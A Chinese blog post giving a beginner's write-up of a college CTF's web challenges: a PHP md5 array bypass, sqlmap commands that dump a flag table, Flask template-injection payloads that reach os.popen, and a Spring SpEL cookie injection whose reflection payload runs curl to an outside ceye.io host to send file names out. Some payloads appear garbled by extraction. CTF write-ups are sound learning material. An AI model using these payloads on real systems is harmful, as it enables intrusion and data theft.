<!--yml
category: 未分类
date: 2022-04-26 14:48:25
-->

# 记一次院赛CTF的WEB题（入门级别）_CTF小白的博客-CSDN博客_ctf web解题 找flag

> 来源：[https://blog.csdn.net/qq_41429081/article/details/89296025](https://blog.csdn.net/qq_41429081/article/details/89296025)

这次院赛的题目比较基础，适合给刚入门CTF的小白提供一个大致CTF解题思路。（主要因为本人小白，表示能学到不少东西。）

# 签到一

题目中直接给了flag，提交就可以了。

# 签到二



这题主要考察的是基本的F12能力，查看网页源码，以及修改input输入框的长度。

# 口算小天才


这题通过题意，是需要让我们在1~3秒内回答出这个计算题。这题应该算是考察一个基本的编程能力吧。

这边给出我的python代码。当然这题还有很多别的编程语言可以使用，我当时就是直接用的js，直接获取算式，然后我是百度了一个别人写好js的运算的函数CalcEval.prototype.complexEval，然后将算式传进去，计算得出答案，放到答案的框中，js点击实现的。

# easy php


其实看到vim就可以想到.swp文件的泄露，但是作为小白的我没有想到这个，我直接放到了漏洞扫描的软件扫了一下（强烈推荐这个软件）

这里发现了.DS_Store的泄露。


然后用ds_store_exp这个工具下载下来（需要的是python2.7的环境）

这边代码审计一下，首先页面get到a、b、c三个参数，然后把a和b经过的md5后的保存下来，这题输出flag的条件分别是，1、a和b存在 2、a！=b，且a的md5和b的md5要相等 3、c<9999999||(String)$c>0这个结果要是false。

md5（）这个函数可以去百度一下，如果我们传入的a和b是数组的话，他们md5（）后的返回值会是false，利用false==false可以满足条件2

然后要满足条件3需要知道，数组与整数比较会返回false，所以构建如下


# 录取查询

这题可以发现注入点，可以直接选择手工注入，但是更简单的是使用sqlmap
关于sqlmap如何post注入可以看下面的

首先需要用bp抓个包，把他copy到一个txt里面保存。


使用 sqlmap –r lqcx.txt –-dbs
就是使用我们保存的这个txt，去找数据库


可以发现有如下数据库，因为是学校的录取查询，所以应该是school，当然不知道也没关系，每个看一遍也能找到flag

然后sqlmap r lqcx.txt –D school –-table
就是找school数据库的表

可以发现有这两张表，所以当然是选择flag

使用sqlmap –r lqcx.txt –D school –T flag –-column
查找school数据库中的flag表的字段

可以看到有flag字段


使用sqlmap –r lqcx.txt –D school –T flag –C flag –-dump
就是查找school数据库中的flag表的flag字段，然后—dump弹出显示出来

就能得到flag


然后放一段我同学的手工注入


# 我爱python


这题的话，看了他的网页源码，可以看到power by flask，然后百度一下flask漏洞
推荐这篇博客https://blog.csdn.net/lansatiankongxxc/article/details/78764726

大概可以知道我们需要他的os模块来显示有哪些文件，然后使用file模块来读取文件。
这边使用{{().**class**.**bases**[0].**subclasses**()}}可以看到有哪些类，我们发现有file，然后我们还需要os，这边看了大佬的write up知道了，访问os模块可以从warnings.catch_warnings下手，发现确实是包含了这个类

这边是上面查到的那篇博客的部分截图

首先，这边要找warnings.catch_warnings的位置，于是我用{{[].**class**.**base**.**subclasses**().index(warnings.catch_warnings)}}
我发现不能执行他的那个语句应该是没有导入warnings的缘故吧我想，于是我把之前用{{().**class**.**bases**[0].**subclasses**()}}找到的所有类放到notepad++中，批量把>换成了>\n

这边发现他是第60个，换成索引就是59。

然后知道了位置，执行
{{().**class**.**bases**[0].**subclasses**()[59].**init**.func_globals.keys() }}查看由哪些global函数

这边可以看到有linecache，我们要访问的os模块就在这里

{{().**class**.**bases**[0].**subclasses**()
[59].**init**.**getattribute**(‘func_global’+‘s’)
[‘linecache’] .**dict**[‘o’+‘s’].**dict**[’popen’]('%20rel=).read()}}
当然，这边没有进行关键字的过滤，所以不需要拼接字符串，但是我这里还是拼接了一下。

可以看到有这些文件，很明显我们要的是flag。
使用file模块进行读写
使用之前找到warnings.catch_warnings位置的方法，发现file的索引是40

{{().**class**.**bases**[0].**subclasses**()[40]('%20rel=).read()}}


# Spring

主要给了他后台的源码，是一个jar包。
使用JD-GUI反编译一下，可以看到可读的java源码
首先可以看到SpringBoot的配置application.yml

这边可以看到一个管理员的账号、密码、权限和一个后面要用到的rememberMeKey。还有一个黑名单，我们后面需要绕过这些。

Main控制器中主要是一个账号密码权限和是否记住的读取，然后如果勾选了记住我的话，会默认给设定一个cookie

由于SmallEvaluationContext extends StandardEvaluationContext StandardEvaluationContext这些是可以执行类类型表达式。所以会出现命令执行漏洞。


这边就是把那个username传到了getAdvanceValue（）方法里面，所以我们需要传的这个username应该是一个执行后可以获取我们想要的flag的东西。

然后可以看到这个username是把rememberMeValue传到this.userConfig.decryptRememberMe（）里面得到的。

rememberMeValue就是我们的remember-me的值，这是我们一个cookie的值，我们可以通过改cookie的值来实现传入这个rememberMeValue

然后找到userConfig里面的decryptRememberMe（）

就是会调用这个解开我们的cookie然后最后给到具有命令执行漏洞的SmallEvaluationContext

所以我们要构造这个cookie，就需要使用加密的方法，可以找到



这里的rememberMeKey的值就是之前看到的。


然后就可以把这个加密的方法copy出来，把我们想要执行的内容加密存入cookie

我们主要是要通过这样来获取一个回显（[我这里使用DNSlog的回显方式是使用ceye.io](http://xn--DNSlogceye-2u5pga446v2g0a06jewom1bwho40xma514ebu0n6mj.io)）
Runtime.getRuntime().exec(“curl http://****（这里是自己的一个子域名）.ceye.io/”)

然后构建payload

```
String.class.getClass()
.forName("java.l"+"ang.Ru"+"ntime")
        .getMethod("exec",String.class)
        .invoke(String.class.getClass()
        .forName("java.l"+"ang.Ru"+"ntime")
            .getMethod("getRu"+"ntime")
            .invoke(String.class.getClass()
            .forName("java.l"+"ang.Ru"+"ntime"))
                ,"curl http://***.ceye.io/"); 
```

我最终构建如下

这边就是使目标服务器，执行将ls下的每一个文件名作为四级域名的形式回显。

为什么我不一次性作为一个字符串返回，是因为有长度限制
可以参考简书https://www.jianshu.com/p/307acf4e1fbf

所以我使用了一个for循环，将每个文件名作为我的域名的一部分回显了。

可以看到有flag_j4v4_hhh的一个文件


这边base64加密传输是避免部分符号的丢失


